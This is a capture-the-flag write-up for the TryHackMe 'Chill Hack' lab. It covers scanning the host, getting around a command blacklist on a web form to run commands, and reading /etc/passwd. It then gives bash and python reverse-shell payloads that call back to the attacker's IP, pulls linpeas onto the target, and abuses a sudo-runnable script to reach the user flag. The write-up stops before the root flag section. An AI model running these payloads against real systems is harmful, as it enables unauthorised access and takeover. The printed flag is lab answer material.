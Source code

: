 # [Chill Hack](https://tryhackme.com/room/chillhack)

```
export IP=10.10.133.204
```

---

## Task 1
1. User flag

	a. Nmap scan (`nmap -sV -sC -oN nmap/initial $IP`):
	```
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to ::ffff:10.6.53.245
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 4
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
	|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
	|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-title: Game Info
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	```

	b. `http://$IP/secret/` gives us a way of remote code execution. Most commands are blacklisted (ex: `python3`, `which`, etc). However, I did find that I run any command as long as the command is contained within `echo "$(<command here>)"`.

	c. Was able to retrieve the contents of `/etc/passwd` (`echo "$(cat /etc/passwd)"`):
	```
	root:x:0:0:root:/root:/bin/bash 
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
	bin:x:2:2:bin:/bin:/usr/sbin/nologin 
	sys:x:3:3:sys:/dev:/usr/sbin/nologin 
	sync:x:4:65534:sync:/bin:/bin/sync 
	games:x:5:60:games:/usr/games:/usr/sbin/nologin 
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
	irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
	gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
	systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
	systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
	syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
	messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
	_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
	lxd:x:105:65534::/var/lib/lxd/:/bin/false 
	uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
	dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
	landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
	pollinate:x:109:1::/var/cache/pollinate:/bin/false 
	sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
	aurick:x:1000:1000:Anurodh:/home/aurick:/bin/bash 
	mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false 
	apaar:x:1001:1001:,,,:/home/apaar:/bin/bash 
	anurodh:x:1002:1002:,,,:/home/anurodh:/bin/bash 
	ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```

	d. Trying to create a reverse shell payload:
	```
	# On local machine:
	nc -lnvp 9999

	# Inside the http://$IP/secret/ command input:
	echo "$(bash -c 'exec bash -i &>/dev/tcp/10.6.53.245/9999 <&1')"

	# Bash reverse shell was blocked so trying python:
	echo "$(python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.6.53.245", 9999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")')"
	```

	e. That did the trick! Got my reverse shell.

	f. Don't have a lot of access being www-data so I downloaded linpeas.sh to the target machine and ran it.
	```
	# On local machine
	cd /usr/share/enumeration	# The place where I have linpeas.sh saved.

	# On target machine
	cd /dev/shm
	wget -O linpeas.sh http://$MY_IP:8000/linpeas.sh
	chmod 777 linpeas.sh
	./linpeas.sh | tee linpeas.log
	```

	g. Realized with `sudo -l` that we can run the /home/apaar/.helpline.sh script as any user and that the script itself is vulnerable to command injection.
	```
	sudo -u apaar /home/apaar/.helpline.sh

	# Then stabilize the shell again and now you're `apaar`.
	```

	h. Was able to find the User Flag @ `/home/apaar/local.txt`:
	```
	{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
	```


2. Root flag

	a. 